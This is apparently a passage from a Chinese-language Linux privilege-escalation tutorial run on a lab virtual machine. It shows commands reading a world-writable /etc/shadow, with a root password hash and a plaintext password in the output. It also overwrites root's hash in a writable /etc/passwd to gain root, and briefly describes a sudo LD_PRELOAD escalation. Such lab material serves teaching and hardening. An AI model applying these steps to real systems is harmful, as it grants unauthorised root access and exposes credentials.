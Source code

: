 ```bash
moonteam@moonteam-virtual-machine:~$ ls -liah /etc/shadow
1064148 -rw-r--rw- 1 root shadow 1.4K  5月  1  2019 /etc/shadow
moonteam@moonteam-virtual-machine:~$ vim /etc/shadow
moonteam@moonteam-virtual-machine:~$ su
密码： zf1yolo
root@moonteam-virtual-machine:/home/moonteam# cat /etc/shadow | grep root
root:$6$aw/fs6tKrOtp2yzX$nNXpaKzSFBF2caz8FjvRRk9iCF00rYY2BY7qUp8b/lM3Pz1Gtx.KrvDZI9akUrlE08SNzctH522nevqPiaIwq0:18016:0:99999:7:::
```

## 可写passwd文件利用

1、root 用户赋予权限

```bash
root@moonteam-virtual-machine:~# chmod o=rw /etc/passwd
```

2、moonteam 用户查看 passwd 权限

```bash
moonteam@moonteam-virtual-machine:~$ ls -liah /etc/passwd
1064149 -rw-r--rw- 1 0 root 2.3K  5月  1  2019 /etc/passwd
```

3、本地生成 root 的密码

```bash
┌──(kali㉿kali)-[~]
└─$ openssl passwd 123456
$1$/RTBLQ0l$i.Yj51ObSAVwFOV0Vjtq6/
```

4、把密码覆盖 passwd 里的 root 用户的 x 位，于是 root 密码又被我们改为了 123456

```bash
moonteam@moonteam-virtual-machine:~$ vi /etc/passwd
moonteam@moonteam-virtual-machine:~$ su
密码： 123456
root@moonteam-virtual-machine:/home/moonteam# cat /etc/passwd |grep root
root:$1$/RTBLQ0l$i.Yj51ObSAVwFOV0Vjtq6/:0:0:root:/root:/bin/bash
```

## sudo环境变量提权

并非用 find 后面跟参数提权，而是 find 之前就预加载了 LD_PRELOAD，而 shell.so里有我们的提权逻辑 ，权限是继承自 sudo。
